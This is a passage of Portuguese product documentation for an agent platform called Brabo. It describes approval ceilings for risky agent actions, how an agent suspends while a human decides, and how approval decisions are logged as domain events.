| `terminal` com git de efeito externo (push/PR/deploy) ou `sudo`/`doas` | `auto_approve` → `require_approval` | git com efeito externo e comandos privilegiados nunca são auto-aprováveis, nem com o "modo automático" ligado ([RN-418](../business-rules.md#rn-418), revisa a [RN-106](../business-rules/autenticacao.md#rn-106)) — veja a seção dedicada acima |
| `git_push` e `pr_open` tipados | `auto_approve` → `require_approval` | o mesmo teto da RN-418 pela porta tipada: nem a curinga do modo automático, nem uma regra específica de `agent_autonomy`, nem o `permissions.json` os promovem ([RN-689](../business-rules.md#rn-689)). `git_merge` mantém o teto próprio (primeira linha); `deploy` não é tipo de `proposed_action` |
| `container_remove` | `auto_approve` → `require_approval` | descartar um container força um reprovisionamento completo — mesmo calibre de mergear em branch protegida, decidido toda vez, nunca configurado uma vez ([RN-495](../business-rules.md#rn-495)) |

Um teto rebaixa `auto_approve` para `require_approval`; ele **não** transforma
`deny` em outra coisa, porque o `deny` já teria devolvido antes.

:::note Por que `rc` continua na lista

O degrau `rc` saiu da política de branches
([ADR 0030](../adr/0030-politica-de-branches-mecanizada.md)) e o bootstrap
parou de criá-lo ([RN-029](../business-rules.md#rn-029)) — mas ele continua
aqui, em `domain/actions/protected-branches.ts`.

Esta lista decide o que a trava de merge **recusa**, e repositórios
bootstrapados por versões anteriores do Brabo ainda têm a branch. Tirá-la daqui
não tiraria nada do repositório de ninguém: só tornaria auto-aprovável um
`git_merge` com destino `rc`, numa branch que alguém pode estar usando como
produção.

Proteger uma branch que não existe não custa nada. Desproteger uma que existe
custa caro — e a assimetria é deliberada.

:::

A diferença entre teto e padrão: o padrão é o que acontece quando ninguém
configurou nada; o teto é o que acontece **independentemente** do que foi
configurado.

## O que acontece com o agente enquanto a decisão não vem

Uma ação `pending` não é só uma linha esperando um clique: do outro lado há um
agente parado.

Quando a ferramenta que ele chamou fica pendente, o laço dele **suspende**,
segurando a tarefa, o worktree e o histórico da conversa, e ele entra em
`awaiting_approval`. A sua decisão emite `task.action_settled`, que o acorda:
o resultado real do comando ocupa o lugar onde estaria a resposta, e o laço
retoma de onde parou.

**Recusar também responde.** O motivo ocupa o lugar do resultado, e o agente
aprende que aquele caminho está fechado em vez de esperar para sempre — negar
não o deixa travado.

Isso importa para quem opera: aprovar tarde não desperdiça o trabalho já
feito, e a fila de aprovação não é assíncrona por conveniência — ela é
literalmente o que o agente está esperando. Antes disso, `pending` voltava
como se fosse a resposta do comando, e o agente queimava o teto de iterações
tentando outra coisa até a tarefa morrer sem uma linha escrita
([RN-073](../business-rules/custo.md#rn-073)).

**Com uma exceção: reinício do engine.** O laço suspenso mora em memória,
então um reinício o derruba junto. Nesse caso a tarefa **não** fica esperando:
ela volta para a fila de bloqueadas, com o motivo e origem `infra` no event
log, e uma decisão tomada depois disso não tem mais onde ser aplicada — a ação
decidida fica registrada, mas o turno que a esperava não existe mais. Se você
aprovou e nada aconteceu, este é o primeiro lugar a olhar.

A auto-aprovação não passa por aqui: ela executa na proposta e o resultado
volta no mesmo turno — que é exatamente o valor de ter os padrões da seção
anterior.

**O Dev Lead suspende do mesmo jeito, com uma diferença no reinício**
(ADR 0086, [RN-284](../business-rules.md#rn-284)). Ele é conversacional, não
tem worktree nem tarefa — o que suspende é o `handle_call` síncrono do turno,
via `agent.status: awaiting_approval`. Diferente do dev agent, ele NÃO tem fila
para onde voltar num reinício do engine: a decisão continua registrada e
visível em Aprovações, mas o Dev Lead não narra o desfecho sozinho — o processo
que esperava morreu, e o próximo reinício sobe um Dev Lead novo, sem inscrição
para aquela ação. Uma lacuna aceita e declarada, não disfarçada.

## O que é gravado em cada decisão

Toda ação proposta e toda decisão sobre ela viram um **evento de domínio** em
`session_events`, com o ator real
([RN-049](../business-rules/custo.md#rn-049)):

| evento | ator | quando |
|---|---|---|
| `proposed_action.created` | o **agente** que a propôs | sempre, antes de qualquer execução. `payload.status` diz como a ação nasceu: `pending`, `auto_approved` ou `denied`; `payload.reason` diz qual regra de `decide()` a produziu ([RN-567](../business-rules.md#rn-567)) |
| `proposed_action.approved` | o **usuário** que clicou | só na aprovação manual (inclusive `approve_always`) |
| `permission.granted` | o **usuário** que clicou em "sempre permitir" | só quando o clique gravou de fato um padrão — `payload.patterns` (os padrões gravados, um por segmento, [RN-675](../business-rules.md#rn-675)) e `payload.pattern` (a mesma lista unida por ", "), ou `payload.agentId`/`actionType` para um dev agent de módulo ([RN-642](../business-rules.md#rn-642)) |
| `proposed_action.denied` | o **usuário** que recusou | com `payload.reason` |
| `action.executed` / `action.failed` | `system` | desfecho da execução |

Daí sai o único jeito confiável de separar as duas coisas que este documento
descreve:

- **decisão humana** = contar eventos `proposed_action.approved`;
- **decisão de política** = `proposed_action.created` com `status:
  auto_approved` e ator agente. Ela nunca produz um `.approved`, e por isso
  nunca se confunde com um clique. O `reason` dela diz **qual** regra
  auto-aprovou — `agent_autonomy: auto_approve`, uma linha `allow` do
  `permissions.json`, o piso do container, `escopo: cd dentro da pasta do
  projeto` — no texto exato que `decide()` usa. Eventos gravados antes da
  [RN-567](../business-rules.md#rn-567) não têm `reason`: leia isso como "não
  registrado", não como "nenhuma regra". O motivo nomeia a regra, não a raiz
  do escopo; desde a [RN-609](../business-rules.md#rn-609) o evento de uma ação
  `terminal` leva também `scopeRoot` — o modo de execução mais um
  identificador RELATIVO da raiz contra a qual o escopo de caminho comparou (o
  `workspace_dir_name` em `container`/`runner`, o segmento abaixo de
  `BRABO_PROJECTS_BASE` em `mounted`), nunca o caminho absoluto, que exporia o
  `$HOME` do usuário a todo membro. A linha do outbox não leva nem `reason` nem
  `scopeRoot` — nenhum consumidor do engine os lê. Desde a
  [RN-614](../business-rules.md#rn-614) a tela mostra os dois, numa frase
  montada por uma função só: na linha do evento no painel de log da sessão e no
  card de aprovação (chat da sessão e fila da aba Aprovações). Um evento mais
  antigo diz "não registrado", e o card diz isso quando o evento está fora dos
  eventos carregados naquela tela.

Isso não era verdade até a Fase 12e. As três primeiras linhas iam **só para o
outbox**, que é transporte — drenado, marcado com `processed_at` e podado — e
a decisão sobrevivia só em `proposed_actions.decided_at`, uma coluna fora da
timeline que a tela, o Psicólogo e a Anamnese leem. O resultado prático foi
que "quantas vezes o humano aprovou" não pôde ser respondido no dogfooding da
Fase 10, que era exatamente a métrica principal daquele experimento.

O bootstrap de repositório é a exceção deliberada: as mutações que ele propõe
não emitem `proposed_action.created` no log, porque já são narradas por
`bootstrap.step_*` na mesma sessão — contá-las de novo inflaria a métrica de
aprovação com trabalho que ninguém aprovou.
